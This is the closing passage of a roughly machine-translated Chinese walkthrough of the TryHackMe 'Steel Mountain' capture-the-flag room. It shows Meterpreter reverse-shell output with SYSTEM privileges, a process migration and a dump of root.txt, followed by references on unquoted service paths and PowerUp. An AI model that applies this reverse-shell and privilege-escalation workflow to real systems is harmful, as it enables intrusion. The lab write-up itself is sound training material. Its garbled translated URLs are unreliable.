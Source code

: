 我获得了反向 Meterpreter 会话和全部权限(Cmd。1)但很快不得不迁移到更稳定的流程(Cmd。2).

```
[*] Started reverse TCP handler on <attackbox ip>:4445 
[*] Sending stage (200262 bytes) to <boot2root ip>
[*] Meterpreter session 3 opened (<attackbox ip>:4445 -> <boot2root ip>:49516 ) at [redacted] -0500**[1] meterpreter > getuid**
Server username: NT AUTHORITY\SYSTEM
**[2] meterpreter > migrate 2068**
[*] Migrating from 3292 to 2068…
[*] Migration completed successfully.
```

我终于可以搜索根标志并转储它了:

```
**meterpreter > search -f root.txt**
Found 1 result…
=================Path Size (bytes)    Modified (UTC)
-----------------    --------------
c:\Users\Administrator\Desktop\root.txt 32 2019–09–27 08:41:10 -0400**meterpreter > cat "c:\Users\Administrator\Desktop\root.txt"**
[redacted]**meterpreter >**
```

# 结论

钢铁山房间还有一个任务，要求争夺者在没有 Metasploit 的情况下黑入 boot 2 root VM*([《tryhackme》2019，任务 4](https://tryhackme.com/room/steelmountain) )。我还没有这样做，但会计划在不久的将来这样做；-)*

我仍然想写这篇文章，希望能为那些对攻击性安全感兴趣的人提供参考。

# 参考

ATT 和 CK 框架(未标明)。*劫持执行流程:DLL 搜索命令劫持*。米特公司。2022 年 3 月 9 日检索自:[https://attack.mitre.org/techniques/T1574/001/](https://attack.mitre.org/techniques/T1574/001/)

钱德尔河(2021)。 *Windows 权限提升:未引用的服务路径*。黑客文章。2022 年 3 月 9 日检索自:[https://www . hacking articles . in/windows-privilege-escalation-un quoted-service-path/](https://www.hackingarticles.in/windows-privilege-escalation-unquoted-service-path/)

Gilstorf，A. (2019)。机器人先生第四季第六集——卡莉·查肯饰演达琳·奥尔德逊，拉米·马雷克饰演埃利奥特·奥尔德逊。泄密电视。2022 年 3 月 6 日检索自:[https://telltaletv . com/2019/11/preview-Mr-robot-season-4-episode-5-method-not-allowed/Mr-robot-season-4-59/](https://telltaletv.com/2019/11/preview-mr-robot-season-4-episode-5-method-not-allowed/mr-robot-season-4-59/)

《powershell mafia》(2017)。 *PowerSploit/PowerUp.ps1* 。GitHub 仓库。2022 年 3 月 9 日检索自:[https://github . com/powershell mafia/PowerSploit/blob/master/Privesc/power up . PS1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)

Rejetto.com(未标出)。 *HFS ~ HTTP 文件服务器*。2022 年 3 月 9 日检索自:[http://rejetto.com/hfs/](http://rejetto.com/hfs/)

团队堡垒 2 维基(未注明)。*雷山*。2022 年 3 月 9 日检索自:[https://wiki.teamfortress.com/wiki/Thunder_Mountain](https://wiki.teamfortress.com/wiki/Thunder_Mountain)
